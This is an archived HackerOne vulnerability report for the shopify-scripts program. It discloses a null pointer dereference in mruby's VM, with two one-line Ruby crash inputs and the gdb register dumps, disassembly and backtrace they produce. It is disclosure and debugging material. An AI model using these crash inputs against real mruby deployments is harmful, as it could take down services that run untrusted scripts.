 # mrb_vm_exec - null ptr dereference

## Report Details
- **Report ID**: 210429
- **URL**: https://hackerone.com/reports/210429
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-03-03T17:12:14.337Z
- **Disclosed**: 2017-04-13T21:10:26.049Z

## Reporter
- **Username**: icanthack
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Linux Ubuntu Xenial x64
commit ffdf7be7235717fb1cd30e54c24c5383f705f110
Author: Yukihiro "Matz" Matsumoto <matz@ruby-lang.org>
Date:   Thu Mar 2 20:38:16 2017 +0900

Probably related with https://github.com/mruby/mruby/issues/3389

Old PoC
```
0.instance_eval { super() }
```

New PoC 
```
p.instance_eval { super() {1} [ ++1] }
```

output
```
 [----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x6c3e50 --> 0x0
RCX: 0x6c3e70 --> 0x300000001
RDX: 0x0
RSI: 0x1
RDI: 0x6b1010 --> 0x7fffffffde00 --> 0x0
RBP: 0x7fffffffdef0 --> 0x7fffffffdf40 --> 0x7fffffffdfa0 --> 0x7fffffffe130 --> 0x7fffffffe160 --> 0x7fffffffe220 (--> ...)
RSP: 0x7fffffffd880 --> 0x6b10e8 --> 0x6fb310 --> 0x7072e0 --> 0x1
RIP: 0x4225b0 (<mrb_vm_exec+5547>:	mov    eax,DWORD PTR [rax])
R8 : 0xd ('\r')
R9 : 0x6bc950 --> 0x1109
R10: 0x7ffff7ac8b88 --> 0x70d6f0 --> 0x0
R11: 0x7ffff7899390 --> 0xfffda380fffda0af
R12: 0x401990 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe300 --> 0x2
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x42259e <mrb_vm_exec+5529>:	lea    rdx,[rax*4+0x0]
   0x4225a6 <mrb_vm_exec+5537>:	mov    rax,QWORD PTR [rbp-0x470]
   0x4225ad <mrb_vm_exec+5544>:	add    rax,rdx
=> 0x4225b0 <mrb_vm_exec+5547>:	mov    eax,DWORD PTR [rax]
   0x4225b2 <mrb_vm_exec+5549>:	mov    DWORD PTR [rbp-0x620],eax
   0x4225b8 <mrb_vm_exec+5555>:	mov    rax,QWORD PTR [rbp-0x658]
   0x4225bf <mrb_vm_exec+5562>:	mov    rax,QWORD PTR [rax+0x20]
   0x4225c3 <mrb_vm_exec+5566>:	mov    rax,QWORD PTR [rax+0x8]
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffd880 --> 0x6b10e8 --> 0x6fb310 --> 0x7072e0 --> 0x1
0008| 0x7fffffffd888 --> 0x720660 --> 0x800029008000a0
0016| 0x7fffffffd890 --> 0x6b3fb0 --> 0x10d
0024| 0x7fffffffd898 --> 0x6b1010 --> 0x7fffffffde00 --> 0x0
0032| 0x7fffffffd8a0 --> 0x7fff00ffd8d0
0040| 0x7fffffffd8a8 --> 0x6bd370 --> 0x6909 ('\ti')
0048| 0x7fffffffd8b0 --> 0xd00000002
0056| 0x7fffffffd8b8 --> 0x3008000a0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004225b0 in mrb_vm_exec (mrb=0x6b1010, proc=0x6b3fb0, pc=0x720660) at /home/vagrant/new/mruby/src/vm.c:1153
1153	      mrb_sym mid = syms[GETARG_B(i)];
```

bt
```
gdb-peda$ bt
#0  0x00000000004225b0 in mrb_vm_exec (mrb=0x6b1010, proc=0x6b3fb0, pc=0x720660) at /home/vagrant/new/mruby/src/vm.c:1153
#1  0x0000000000421003 in mrb_vm_run (mrb=0x6b1010, proc=0x6b4040, self=..., stack_keep=0x0) at /home/vagrant/new/mruby/src/vm.c:815
#2  0x0000000000429288 in mrb_top_run (mrb=0x6b1010, proc=0x6b4040, self=..., stack_keep=0x0) at /home/vagrant/new/mruby/src/vm.c:2568
#3  0x00000000004496ea in mrb_load_exec (mrb=0x6b1010, p=0x70d720, c=0x70c380) at /home/vagrant/new/mruby/mrbgems/mruby-compiler/core/parse.y:5759
#4  0x0000000000449780 in mrb_load_file_cxt (mrb=0x6b1010, f=0x70d370, c=0x70c380) at /home/vagrant/new/mruby/mrbgems/mruby-compiler/core/parse.y:5768
#5  0x00000000004022f0 in main (argc=0x2, argv=0x7fffffffe308) at /home/vagrant/new/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:227
#6  0x00007ffff7725830 in __libc_start_main (main=0x401fd6 <main>, argc=0x2, argv=0x7fffffffe308, init=<optimized out>, fini=<optimized out>,
    rtld_fini=<optimized out>, stack_end=0x7fffffffe2f8) at ../csu/libc-start.c:291
#7  0x00000000004019b9 in _start ()
gdb-peda$
```

## Attachments
- Snip20170304_34.png
